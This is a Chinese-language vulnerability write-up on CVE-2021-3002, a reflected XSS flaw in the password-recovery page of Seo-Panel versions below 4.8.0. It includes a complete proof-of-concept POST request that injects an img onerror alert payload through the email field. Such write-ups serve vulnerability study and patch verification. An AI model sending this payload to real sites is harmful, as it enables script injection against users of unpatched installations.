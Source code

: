 ```yaml
---
title: Seo-Panel 4.8.0 反射型XSS漏洞  CVE-2021-3002
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - Seo-Panel
---
```


# Seo-Panel 4.8.0 反射型XSS漏洞  CVE-2021-3002

## 漏洞描述

*Seo Panel*是一个网站搜索引擎优化管理的完整控制面板。它包含了多个SEO工具来增加和跟踪你的网站性能

Seo-Panel 4.8.0以下版本存在过滤不完全的情况，造成存在 反射型XSS漏洞 

## 漏洞影响

> [!NOTE]
>
> Seo-Panel  Version < 4.8.0 

## 环境搭建

https://github.com/seopanel/Seo-Panel

下载后放入网站根目录根据提示安装访问即可

![](/img/20210924015526265824.png)

## 漏洞复现

漏洞出现在找回密码页面 **http://xxx.xxx.xxx.xxx/login.php?sec=forgot**

![](/img/20210924015526458252.png)

成功弹窗 ,造成 反射型XSS 漏洞

## 漏洞POC

请求包如下

```js
POST /login.php?sec=forgot HTTP/1.1
Host: 192.168.51.133
Content-Length: 118
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Origin: http://192.168.51.133
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.51.133/login.php?sec=forgot
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=i0qk20ehq89b29ct8krpv76vn3; yzmphp_adminid=33d5DywYQIUGS13SI7x4I0y7JiCacraGcDU1uoBx; yzmphp_adminname=1fc8yAdCyAogZ-PIz4c66dU1ij0mHsG7KGF_5tToVThEzbc
Connection: close

sec=requestpass&email=peiqi%40peiqi.com%22%3E%3Cimg+src%3Da+onerror%3Dalert%28%22peiqi%22%29%3Egcuak&code=12345&login=
```

